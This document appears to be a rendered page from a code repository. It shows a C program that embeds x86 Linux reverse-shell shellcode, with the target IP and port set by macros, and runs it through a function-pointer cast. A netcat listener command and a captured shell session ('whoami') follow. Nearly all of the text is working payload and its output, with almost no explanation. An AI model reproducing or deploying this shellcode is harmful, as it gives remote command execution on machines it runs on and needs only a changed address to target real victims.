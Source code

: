 ```
#include <stdio.h>

/*
 ipaddr 127.1.1.1 (0101017f)
 port 8888 (b822)
*/
#define IPADDR "\x7f\x01\x01\x01"
#define PORT "\x22\xb8"

unsigned char *shellcode ="\x6a\x66\x58\x31\xdb\x53\x43\x53\x43\x53\x4b\x89\xe1\xcd\x80\x89\xc7\x68"IPADDR"\x66\x68"PORT"\x66\x6a\x02\x89\xe6\x6a\x66\x58\x6a\x03\x5b\x6a\x10\x56\x57\x89\xe1\xcd\x80\x6a\x3f\x58\x89\xfb\x31\xc9\xcd\x80\x6a\x3f\x58\x6a\x01\x59\xcd\x80\x6a\x3f\x58\x41\xcd\x80\x6a\x0b\x58\x31\xdb\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

 
 int main(){
     int (*ret)();
     ret = (int(*)())shellcode;
     ret();
 
     return 0;
}
```

Setting up a listener in another Terminal:

	$ nc -nlvp 8888

And now running `./test`:

```
$ nc -nlvp 8888
whoami
valle
```
